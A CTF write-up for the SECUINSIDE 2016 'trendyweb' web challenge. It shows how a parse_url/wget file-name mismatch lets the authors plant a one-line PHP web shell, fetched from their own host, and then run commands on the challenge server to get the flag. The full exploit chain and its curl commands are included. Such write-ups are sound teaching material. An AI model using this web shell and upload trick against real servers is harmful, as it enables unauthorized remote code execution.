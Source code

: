 # SECUINSIDE 2016: trendyweb

## Challenge details
| Event | Challenge | Category | Points |
|:------|:----------|:---------|-------:|
| SECUINSIDE | trendyweb | Web | ~~100~~ 0 |

### Description
> Trendy~! Web~
> The flag reader is on /.
>
> http://chal.cykor.kr:8082
> http://52.78.11.234:8082
>
> p.s.
> If the download doesn't work, try this:
> https://gist.github.com/Jinmo/e49dfef9b7325acb12566de3a7f88859
>
> and it requires data/ folder
> [index.php](index.php)

## Write-up
Upon inspecting [index.php](index.php) we clearly see there's some serialization
going on, but which peeked our initial interest. But when looking little further
we can see that the `download_image` function provides us with all we need:

```php
function download_image($url) {
  $url = parse_url($origUrl=$url);
  if(isset($url['scheme']) && $url['scheme'] == 'http')
    if($url['path'] == '/avatar.png') {
      system('/usr/bin/wget '.escapeshellarg($origUrl));
    }
}
```

Upon loading the page, at some point we see this function is called if
`POST['image']` is set:

```php
if(isset($_POST['image'])) download_image($_POST['image']);
```

So what does `download_image` actually do? As we can see it expects a URL, which
it then checks to be valid or not, by checking the `scheme` and `path` as
returned by php's `parse_url`. So let's see how 
[parse_url](http://php.net/manual/en/function.parse-url.php) actually works:

> ### Return Values
>
> On seriously malformed URLs, parse_url() may return FALSE.
>
> If the component parameter is omitted, an associative array is returned. At least one element will be present within the array. Potential keys within this array are:
>
>     scheme - e.g. http
>     host
>     port
>     user
>     pass
>     path
>     query - after the question mark ?
>     fragment - after the hashmark #
>
> If the component parameter is specified, parse_url() returns a string (or an integer, in the case of PHP_URL_PORT) instead of an array. If the requested component doesn't exist within the given URL, NULL will be returned.

This learns us that the querystring after `?` is not actually considered as a
part of the path. Which is logical, but conflicts in this case with wget's
behaviour. What happens is that wget **will** actually take the querystring into
account when saving the file, allowing us to exploit this function. First we
craft our malicious `avatar.png`:

```bash
$ echo "<?php system($_GET['cmd']); ?>" > avatar.png
```

Then we start a HTTP server (using `python3.5 -m http.server 8080` in our case), 
and verify it works as expected.

```bash
$ wget -q 127.0.0.1:8080/avatar.png?.php
$ ls avatar*
avatar.png  avatar.png?.php
```

Sweet, so let's get our malicious avatar onto the server, by making a POST request 
with the crafted url:

```bash
$ curl --data "image=http://smoke.leet.everyday/avatar.png?.php" http://chal.cykor.kr:8082

<img src="/data/5f390149ab1a4a8ed665/avatar.png" width=80 height=80 />
```

Our server logs verify the file has been requested by the target:
```bash
52.78.65.150 - - [10/Jul/2016 07:31:46] "GET /avatar.png?.php HTTP/1.1" 200 -
```

Sweet. Now let's see: (notice we URLencode the first `?` to `%3f`, to avoid it being
 interpreted as a premature start of the querystring, as well as the passed command):

```bash
$ curl http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=ls%20/
bin
boot
dev
etc
flag_is_heeeeeeeereeeeeee
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ curl "http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=cat%20/flag_is_heeeeeeeereeeeeee"
$
```

Nothing...? This had us wondering for a while, let's figure out what
`flag_is_heeeeeeeereeeeeee` actually is then...

```bash
$ curl "http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=ls%20-l%20/flag_is_heeeeeeeereeeeeee"
---x--x---. 1 root www-data 6172 Jul  9 08:26 /flag_is_heeeeeeeereeeeeee
```
### Solution
Ah, executable then, so let's run it, to finally get our flag:
```bash
curl "http://chal.cykor.kr:8082/data/5f390149ab1a4a8ed665/avatar.png%3f.php?cmd=/flag_is_heeeeeeeereeeeeee"
1-day is not trendy enough
```

### Looking back
Tadaa, the flag was `1-day is not trendy enough`. Now it would have been nice if
we were able around to start playing this CTF a little earlier on (logistics
fail on our side...), so we could have actually submitted the flag while the game
was still running. Maybe a prettier solution (and one that would have payed off if
poking around after getting a shell) than using curl here, would have been to 
write a small python script that would provide with an actual interactive shell
to play around with, by urlencoding our commands and crafting the querystring
automagically.

Ah well, funny little challenge and worth a writeup anyway.
